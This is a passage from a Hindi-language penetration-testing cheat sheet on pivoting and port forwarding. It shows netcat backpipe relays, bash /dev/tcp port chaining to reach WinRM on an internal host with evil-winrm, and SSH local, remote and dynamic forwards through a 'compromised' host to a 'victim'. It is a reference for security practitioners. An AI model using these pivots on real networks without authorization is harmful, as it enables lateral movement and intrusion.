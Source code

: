 ## **Bash**

**होस्ट -> जंप -> इंटरनलA -> इंटरनलB**
```bash
# On the jump server connect the port 3333 to the 5985
mknod backpipe p;
nc -lvnp 5985 0<backpipe | nc -lvnp 3333 1>backpipe

# On InternalA accessible from Jump and can access InternalB
## Expose port 3333 and connect it to the winrm port of InternalB
exec 3<>/dev/tcp/internalB/5985
exec 4<>/dev/tcp/Jump/3333
cat <&3 >&4 &
cat <&4 >&3 &

# From the host, you can now access InternalB from the Jump server
evil-winrm -u username -i Jump
```
## **SSH**

SSH ग्राफिकल कनेक्शन (X)
```bash
ssh -Y -C <user>@<ip> #-Y is less secure but faster than -X
```
### Local Port2Port

SSH सर्वर में नया पोर्ट खोलें --> अन्य पोर्ट
```bash
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 #Local port 1521 accessible in port 10521 from everywhere
```

```bash
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere
```
### Port2Port

स्थानीय पोर्ट --> समझौता किया गया होस्ट (SSH) --> तीसरा\_बॉक्स:पोर्ट
```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```
### Port2hostnet (proxychains)

स्थानीय पोर्ट --> समझौता किया गया होस्ट (SSH) --> जहाँ भी
```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```
### Reverse Port Forwarding
